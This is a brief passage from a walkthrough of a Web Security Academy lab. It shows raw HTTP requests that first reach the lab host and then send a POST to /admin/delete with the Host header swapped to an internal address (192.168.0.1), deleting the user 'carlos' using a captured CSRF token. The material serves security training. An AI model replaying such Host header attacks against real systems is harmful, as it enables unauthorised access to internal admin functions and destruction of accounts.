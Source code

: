 After a redirection you get to the admin panel and can find the “csrf” value:

![img](media/b3eb45f34a105840aa75fc49d6e1b110.png)

After sending a request to “/” with the legitimate “Host” header, send the
request to delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/2
Host: 0a6a005e030d906b874c2bf300490073.web-security-academy.net
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.1
...

username=carlos&csrf=CY6qJXGEMwYMKu0z18mEKfFo2zAoE866
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
